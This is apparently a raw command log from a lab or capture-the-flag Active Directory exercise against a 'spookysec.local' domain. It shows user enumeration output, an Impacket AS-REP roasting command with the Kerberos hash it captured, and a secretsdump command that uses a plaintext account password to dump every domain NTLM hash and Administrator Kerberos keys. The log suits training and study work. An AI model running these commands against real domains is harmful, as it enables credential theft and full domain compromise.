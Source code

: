 Version: v1.0.3 (9dad6e1) - 08/19/21 - Ronnie Flathers @ropnop

2021/08/19 03:58:21 >  Using KDC(s):
2021/08/19 03:58:21 >   spookysec.local:88

2021/08/19 03:58:22 >  [+] VALID USERNAME:       james@spookysec.local
2021/08/19 03:58:29 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2021/08/19 03:58:38 >  [+] VALID USERNAME:       James@spookysec.local
2021/08/19 03:58:42 >  [+] VALID USERNAME:       robin@spookysec.local
2021/08/19 03:59:11 >  [+] VALID USERNAME:       darkstar@spookysec.local
2021/08/19 03:59:30 >  [+] VALID USERNAME:       administrator@spookysec.local
2021/08/19 04:00:08 >  [+] VALID USERNAME:       backup@spookysec.local
2021/08/19 04:00:25 >  [+] VALID USERNAME:       paradox@spookysec.local
2021/08/19 04:02:19 >  [+] VALID USERNAME:       JAMES@spookysec.local
2021/08/19 04:02:58 >  [+] VALID USERNAME:       Robin@spookysec.local


# 获取哈希密码
└─#  python3 GetNPUsers.py -dc-ip spookysec.local spookysec.local/svc-admin -no-pass                                                                                                                                                     1 ⨯
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:2cacc3d363356a69dea6e99d782cdffa$a37c45e309a2e0f7d8279fcf2872bf645b336767ec492f8eaa0bc72b32e755018cdab9fa565f2ba349a915a150587653ebee555cd2c70079d2a9facae2beb00c16e89b5b4040c7455b629bd1419659927ef3f59921eb93328b9858910bdf3fc7e3992a0c54304d9e182cb63a113a6d2d8d692203a96281f71b6ed7318426499f7f6e702c8e6aec842da35f33e69b49d9cb04884dbce0c4ec3cc1405706b73d05a121b005fe96cf6dee0a24de68186a43eb1ff375ef7073ae74f8d193b88bb75ab2dc3a0454005c805b0da16ec28afec0c1b22287884282a0045976b563bd3471ab9dd1574beee1ad45f8ea1642de9f4c5b87



# hash dump
└─#  python3 secretsdump.py -dc-ip spookysec.local backup:backup2517860@spookysec.local       

Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:7418c4215a8c49b89a31b8c40bf80059:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae